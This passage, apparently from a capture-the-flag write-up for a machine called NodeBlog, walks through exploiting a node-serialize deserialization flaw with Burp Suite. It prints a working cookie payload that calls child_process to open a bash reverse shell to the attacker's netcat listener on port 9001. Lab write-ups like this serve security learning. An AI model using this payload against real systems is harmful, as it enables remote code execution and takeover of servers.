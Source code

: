So, to exploit the `node-serialize` library, we have to send a get request and capture it using burpsuite.

![Untitled 21.png](NodeBlog/assets/Untitled%2021.png)

Now send the captured request to the repeater tab. Now we can use the payload to exploit the `node-serialize` library. I got the payload for this vulnerability from the following site: [https://security.snyk.io/vuln/npm:node-serialize:20170208](https://security.snyk.io/vuln/npm:node-serialize:20170208). I have slightly modified the payload, which now will execute a reverse shell on successful execution.

```
// Payload
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'bash -i >& /dev/tcp/<tun0_IP>/9001 0>&1\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Now replace the value of auth cookie with the above payload in the repeater tab and send the request. Before sending a request, make sure to start a netcat listener on your local machine on port 9001.

![Untitled 22.png](NodeBlog/assets/Untitled%2022.png)
